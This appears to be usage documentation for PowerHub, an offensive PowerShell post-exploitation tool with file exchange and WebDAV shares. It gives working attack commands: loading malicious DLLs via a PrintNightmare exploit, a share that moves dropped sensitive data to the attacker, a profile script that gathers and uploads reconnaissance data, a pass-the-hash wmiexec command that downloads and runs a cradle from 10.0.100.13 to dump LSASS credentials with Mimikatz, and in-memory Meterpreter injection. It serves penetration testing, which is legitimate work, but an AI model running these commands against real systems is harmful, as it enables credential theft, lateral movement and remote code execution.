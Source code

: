 # Usage

## Nomenclature

## Typical workflow

## Features

### Hub

### Modules

### File Exchange

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

This feature can also be used on the command line with `PushTo-Hub`. It can transfer files or data from stdin via HTTP back to the PowerHub server.

### Static Files

TODO


### WebDAV

PowerHub also provides several WebDAV shares. You can mount it on the target as
two network drives with `Mount-WebDAV` or `mwd` (as `S:` and `R:` by
default). Be careful, it allows anonmyous access.

One drive is read-only -- maybe you can bypass a weak anti virus with this.
Some exploits require a DLL, so the idea is that you mount the  WebDAV
drive, put malicious DLLs in the read-only directory, and then load them
like this:

```powershell
PS C:\> Import-Module .\cve-2021-1675.ps1
PS C:\> Invoke-Nightmare -DLL "R:\evil-exploit-code.dll"
```

The other has two folders and is writeable by everyone:

* `public` with read/write access for everyone
* `blackhole` for dropping sensitive data. Any file placed here via WebDAV
  will immediately be moved to the `upload` directory on the attacker machine.


### profile.ps1

You can create the file `profile.ps1` in `$XDG_DATA_HOME/powerhub/` which will be automatically executed when loading PowerHub on the Windows machine. This is my `profile.ps1`:

```powershell
# Make powershell tab completion behave more like bash
try {Set-PSReadlineKeyHandler -Key Tab -Function Complete} catch {}

# Put some commands that I pretty much always want to run in one function
function Run-Init {
    Param(
        [parameter(Mandatory=$False)]
        [String]$Label = "Bloodhound"
    )
    Get-SysInfo | PushTo-Hub -Name sysinfo.txt
    Get-HubModule "PrivescCheck.ps1"
    Invoke-PrivescCheck -Extended -Report privesccheck
    PushTo-Hub "privesccheck.txt"
    Get-HubModule "sharphound.exe"
    SharpHound.exe -c All --trackcomputercalls --searchforest --zipfilename $Label --outputdirectory (Get-Location).Path
    PushTo-Hub (Get-ChildItem "*_$Label.zip")
    # To test application control and to have an awesome screenshot tool:
    Get-HubModule "Greenshot" | Run-Exe -OnDisk
}
```

### Payloads

## Examples


### Running Mimikatz on a remote system

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with [Mimikatz](https://github.com/gentilkiwi/mimikatz) via [Impacket](https://github.com/SecureAuthCorp/impacket)'s `wmiexec.py`:

```console
$ wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/\"); ghm Mimikatz; Invoke-Mimikatz | pth -Name mimikatz.txt "'
```

### Meterpreter

Let's say you want to execute a meterpreter in memory, then you do this after placing `meterpreter.exe` in `$XDG_DATA_HOME/powerhub/modules/exe` (don't forget to reload the modules!):

```
PS C:\Users\pentestuser> $K=new-object net.webclient;IEX $K.downloadstring("http://10.0.100.13:8000/0");
PS C:\Users\pentestuser> ghm ReflectivePEInjection; ghm meterpreter.exe|re
```

It should be a staged Meterpreter to keep the binary sufficiently small. I usually use `windows/x64/meterpreter/reverse_https`.

### Empire

Add an Empire launcher to the clipboard, mark it as "executable", then choose the corresponding clipboard ID as "Clip-Exec" in the PowerHub cradle builder.
